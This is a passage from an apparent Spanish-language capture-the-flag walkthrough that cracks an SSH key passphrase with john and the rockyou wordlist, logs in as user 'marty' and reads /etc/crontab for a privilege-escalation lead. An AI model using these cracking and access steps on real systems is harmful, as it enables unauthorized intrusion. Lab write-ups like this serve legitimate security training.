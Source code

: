 Ahora necesitamos saber la clave para esa llave **id_rsa** asi que usaremo **john** para realizar fuerza bruta
```bash
ssh2john id_rsa > hash.txt
```

Ejecutamos **john**
```bash
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

Tenemos la password
```bash
Press 'q' or Ctrl-C to abort, almost any other key for status
metallica1       (id_rsa)
```

Ahora necesitamos convertir la llave en publica
```bash
ssh-keygen -y -f id_rsa
Enter passphrase for "id_rsa": # metallica1
```

Ahora procedemos a conectarnos por **ssh**
```bash
ssh -i id_rsa marty@192.168.100.35
Enter passphrase for key 'id_rsa': metallica1
```

###### Usuario `[ marty ]`:
Flag de usuario:
```bash
-rw-r--r-- 1 root     root       16 Jul 14 20:22 user.txt
```

Desde el directorio **home** tenemos este archivo: **.flux_hint**
```bash
He estado trabajando en una nueva forma de sincronizar los scripts del sistema. Cada minuto... como un reloj.
```

Tenemos tareas **cron** programadas, 
```bash
cat /etc/crontab 
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# Example of job definition:
# .---------------- minute (0 - 59)
# |  .------------- hour (0 - 23)
# |  |  .---------- day of month (1 - 31)
# |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
# |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
# |  |  |  |  |
# *  *  *  *  * user-name command to be executed
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || { cd / && run-parts --report /etc/cron.daily; }
47 6    * * 7   root    test -x /usr/sbin/anacron || { cd / && run-parts --report /etc/cron.weekly; }
52 6    1 * *   root    test -x /usr/sbin/anacron || { cd / && run-parts --report /etc/cron.monthly; }
#
```